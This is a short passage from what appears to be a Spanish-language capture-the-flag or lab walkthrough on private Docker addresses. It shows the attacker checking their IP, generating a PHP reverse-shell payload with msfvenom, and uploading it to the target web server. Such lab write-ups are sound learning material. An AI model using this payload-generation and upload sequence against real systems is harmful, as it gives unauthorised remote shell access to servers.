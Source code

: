         ```bash
        hostname -I
        ```
        
        ![image.png](./imagenes/image%2012.png)
        
    
    - Creamos un archivo malicioso con msfvenom
        
        ```bash
        msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > bicho.php 
        ```
        
        ![image.png](./imagenes/image%2013.png)
        
    
    - Lo subimos al servidor en http://172.17.0.2/machine.php
        
        ![image.png](./imagenes/image%2014.png)
        